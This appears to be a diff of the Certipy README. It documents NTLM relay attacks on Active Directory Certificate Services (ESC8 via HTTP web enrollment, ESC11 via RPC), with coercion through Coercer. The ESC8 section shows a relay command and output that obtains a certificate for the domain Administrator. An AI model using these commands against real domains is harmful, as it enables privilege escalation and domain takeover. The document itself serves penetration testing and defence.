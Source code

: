  #### ESC8
 
 ESC8 is when an Enrollment Service has installed and enabled Web Enrollment via HTTP.
 
-To start the relay server, we can run the `relay` command and specify the CA's IP in `-ca`.
+To start the relay server, we can run the `relay` command and specify the CA's IP in `-target http://<ip>`.
 
 By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.
 
-We can then use a technique such as [PetitPotam](https://github.com/ly4k/PetitPotam) to coerce authentication. For domain controllers, we must specify `-template DomainController`.
+We can then use a tool such as [Coercer](https://github.com/p0dalirius/Coercer) to coerce authentication. For domain controllers, we must specify `-template DomainController`.
 
 ```bash
-$ certipy relay -ca ca.corp.local
-Certipy v4.0.0 - by Oliver Lyak (ly4k)
+$ certipy relay -target 'http://ca.corp.local'
+Certipy v4.7.0 - by Oliver Lyak (ly4k)
 
-[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
+[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp (ESC8)
 [*] Listening on 0.0.0.0:445
 [*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
 [*] Got certificate with UPN 'Administrator@corp.local'
 [*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
 [*] Saved certificate and private key to 'administrator.pfx'
 [*] Exiting...
 ```
 
 #### ESC9 & ESC10
 
 ESC9 and ESC10 is not related to any specific Certipy commands or parameters, but can be abused with Certipy. See the [blog post](https://research.ifcr.dk/7237d88061f7) for more information.
 
 #### ESC11
 
-ESC11 can be abused with impacket's ntlmrelayx:
+ESC11 is when the certificate authority is not configured with IF_ENFORCEENCRYPTICERTREQUEST. This makes the RPC service vulnerable to NTLM relay attacks without signing, such as via SMB. The attack is similar to ESC8, except that we're targeting the RPC protocol instead of the HTTP protocol.
+
+To start the relay server, we can run the `relay` command and specify the CA's IP in `-target rpc://<ip>`. We must also specify the name of the certificate authority in `-ca <name>`.
+
+By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.
+
+We can then use a tool such as [Coercer](https://github.com/p0dalirius/Coercer) to coerce authentication. For domain controllers, we must specify `-template DomainController`.
 